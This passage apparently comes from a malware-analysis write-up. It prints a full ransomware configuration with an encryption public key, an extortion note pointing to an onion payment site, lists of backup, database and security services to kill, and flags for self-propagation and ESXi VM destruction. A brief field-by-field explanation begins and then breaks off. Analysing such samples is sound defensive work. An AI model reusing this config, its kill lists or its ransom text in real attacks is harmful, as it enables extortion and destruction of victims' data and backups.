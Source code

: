 ```
{"config_id":"","public_key":"MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAq8kj5LQJngPsY7AhTaJsUXc5FrSGeKS5gw5PIqk2QPM9TY6+us8TRRzWZ7rGk1zns2klpzpRMUzLIqB8lpCkJjqkOUGfgqs+HN4VIOpoJgFY897xstJCxTc+8pYQEsSqClxJllscU0okkLSQqndIR2Gznlg3qfcwyncJAFBInyqM+L4kbwCQZ6x5HNiLe2lJn8RP2aDiMI+RS1uLYron2G7rxDTUQnxThMtgLAeko8ulaB3TpB0g4lmHCenkEZeBNs81986+MjHnv7KkiscZ7ZrezKjNaIxRs8BAcD9y+Q9QQxCvZMS01ITNXcgiItbA4dsGq1fPJ42yBkkiIodsEQIDAQAB","extension":"kh1ftzx","note_file_name":"RECOVER-${EXTENSION}-FILES.txt","note_full_text":">> What happened?\n\nImportant files on your network was ENCRYPTED and now they have \"${EXTENSION}\" extension.\nIn order to recover your files you need to follow instructions below.\n\n>> Sensitive Data\n\nSensitive data on your system was DOWNLOADED.\nIf you DON'T WANT your sensitive data to be PUBLISHED you have to act quickly.\n\nData includes:\n- Employees personal data, CVs, DL, SSN.\n- Complete network map including credentials for local and remote services.\n- Private financial information including: clients data, bills, budgets, annual reports, bank statements.\n- Manufacturing documents including: datagrams, schemas, drawings in solidworks format\n- And more...\n\n>> CAUTION\n\nDO NOT MODIFY ENCRYPTED FILES YOURSELF.\nDO NOT USE THIRD PARTY SOFTWARE TO RESTORE YOUR DATA.\nYOU MAY DAMAGE YOUR FILES, IT WILL RESULT IN PERMANENT DATA LOSS.\n\n>> What should I do next?\n\nFollow these simple steps to get everything back to normal:\n1) Download and install Tor Browser from: hxxps://torproject[.]org/\n2) Navigate to: hxxp://rfosusl6qdm4zhoqbqnjxaloprld2qz35u77h4aap46rhwkouejsooqd[.]onion/?access-key=${ACCESS_KEY}","note_short_text":"Important files on your network was DOWNLOADED and ENCRYPTED.\nSee \"${NOTE_FILE_NAME}\" file to get further instructions.","default_file_mode":"Auto","default_file_cipher":"Best","credentials":[],"kill_services":["mepocs","memtas","veeam","svc$","backup","sql","vss","msexchange","sql$","mysql","mysql$","sophos","MSExchange","MSExchange$","WSBExchange","PDVFSService","BackupExecVSSProvider","BackupExecAgentAccelerator","BackupExecAgentBrowser","BackupExecDiveciMediaService","BackupExecJobEngine","BackupExecManagementService","BackupExecRPCService","GxBlr","GxVss","GxClMgrS","GxCVD","GxCIMgr","GXMMM","GxVssHWProv","GxFWD","SAPService","SAP","SAP$","SAPD$","SAPHostControl","SAPHostExec","QBCFMonitorService","QBDBMgrN","QBIDPService","AcronisAgent","VeeamNFSSvc","VeeamDeploymentService","VeeamTransportSvc","MVArmor","MVarmor64","VSNAPVSS","AcrSch2Svc"],"kill_processes":["agntsvc","dbeng50","dbsnmp","encsvc","excel","firefox","infopath","isqlplussvc","msaccess","mspub","mydesktopqos","mydesktopservice","notepad","ocautoupds","ocomm","ocssd","onenote","oracle","outlook","powerpnt","sqbcoreservice","sql","steam","synctime","tbirdconfig","thebat","thunderbird","visio","winword","wordpad","xfssvccon","*sql*","bedbh","vxmon","benetns","bengien","pvlsvr","beserver","raw_agent_svc","vsnapvss","CagService","QBIDPService","QBDBMgrN","QBCFMonitorService","SAP","TeamViewer_Service","TeamViewer","tv_w32","tv_x64","CVMountd","cvd","cvfwd","CVODS","saphostexec","saposcol","sapstartsrv","avagent","avscc","DellSystemDetect","EnterpriseClient","VeeamNFSSvc","VeeamTransportSvc","VeeamDeploymentSvc"],"exclude_directory_names":["system volume information","intel","$windows.~ws","application data","$recycle.bin","mozilla","$windows.~bt","public","msocache","windows","default","all users","tor browser","programdata","boot","config.msi","google","perflogs","appdata","windows.old"],"exclude_file_names":["desktop.ini","autorun.inf","ntldr","bootsect.bak","thumbs.db","boot.ini","ntuser.dat","iconcache.db","bootfont.bin","ntuser.ini","ntuser.dat.log"],"exclude_file_extensions":["themepack","nls","diagpkg","msi","lnk","exe","cab","scr","bat","drv","rtp","msp","prf","msc","ico","key","ocx","diagcab","diagcfg","pdb","wpx","hlp","icns","rom","dll","msstyles","mod","ps1","ics","hta","bin","cmd","ani","386","lock","cur","idx","sys","com","deskthemepack","shs","ldf","theme","mpa","nomedia","spl","cpl","adv","icl","msu"],"exclude_file_path_wildcard":[],"enable_network_discovery":true,"enable_self_propagation":true,"enable_set_wallpaper":true,"enable_esxi_vm_kill":true,"enable_esxi_vm_snapshot_kill":true,"strict_include_paths":[],"esxi_vm_kill_exclude":[]} 
```

Let's break it down to know what this Configuration :

1. ``config_id`` : Configuration ID, empty up until now 

2. ``public_key`` : encryption Public Key (Base64 encoded)
